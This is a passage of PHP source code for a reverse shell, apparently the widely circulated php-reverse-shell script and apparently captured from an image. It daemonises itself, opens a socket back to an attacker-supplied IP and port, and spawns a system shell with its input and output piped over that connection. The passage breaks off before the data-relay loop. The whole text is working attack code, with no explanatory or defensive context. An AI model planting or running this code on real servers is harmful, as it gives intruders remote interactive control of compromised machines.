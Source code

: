 ```
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
    // Fork and have the parent process exit
    $pid = pcntl_fork();
    
    if ($pid == -1) {
        printit("ERROR: Can't fork");
        exit(1);
    }
    
    if ($pid) {
        exit(0);  // Parent exits
    }

    // Make the current process a session leader
    // Will only succeed if we forked
    if (posix_setsid() == -1) {
        printit("Error: Can't setsid()");
        exit(1);
    }

    $daemon = 1;
} else {
    printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
    printit("$errstr ($errno)");
    exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
    printit("ERROR: Can't spawn shell");
    exit(1);
```